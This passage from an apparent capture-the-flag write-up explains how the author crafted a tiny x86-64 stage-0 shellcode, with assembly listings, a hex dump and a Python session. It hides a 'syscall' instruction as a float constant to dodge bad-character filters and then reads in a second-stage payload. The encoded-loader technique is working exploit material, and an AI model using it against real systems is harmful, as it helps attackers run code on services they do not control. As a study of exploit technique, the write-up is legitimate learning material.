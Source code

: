 First things first, we need some way to decode an encoded version of `syscall`. Again, I turned to floating point instructions. I could a zero and then subtract another float; I might be able to get the resulting integer to decode to `syscall`!

Due to the size limitation, I could only encode four bytes. The rest of the shellcode would not only need to take care of decoding these four bytes, but also setting up the registers for `syscall read`. 

```
bits 64
_start:                 ; shellcode stage0: read in stage1
add al, _syscall-_start ; point rax to encoded instruction
```

I didn't care anymore about using `rcx` as a counter and index. I needed to adjust the pointer to the right address, which contained an encoded dword. The decoding of this dword is handle by these instructions:

```
fldz                    ; setup st0
fsub dword [rax]        ; subtract encoded instruction
fistp dword [rax]       ; store them again
```

The dword that I chose to encode were actually these instructions:

```
bits 64
xchg rax,rsi
syscall
```

These would assembled to:

```
$ xxd small
0000000: 4896 0f05
```

I then turned to python:

```python
$ python
Python 2.7.3 (default, Mar 13 2014, 11:03:55) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x050f9648
84907592
```

I was lucked out here. I tried many things, but this value, stored as a negative float, did **not** contain any bad chars!

```
sbb esi, esi            ; set rsi to zero
xchg esi, edi           ; used for edi -> stdin
sbb esi, esi            ; set rsi to zero, used for rax -> read
mov dl, 0xf0            ; read in 0xf0 bytes, hopefully enough
_syscall:
dd -84907592.0          ; this is actually xchg rax, rsi; syscall but encoded as a float!
```
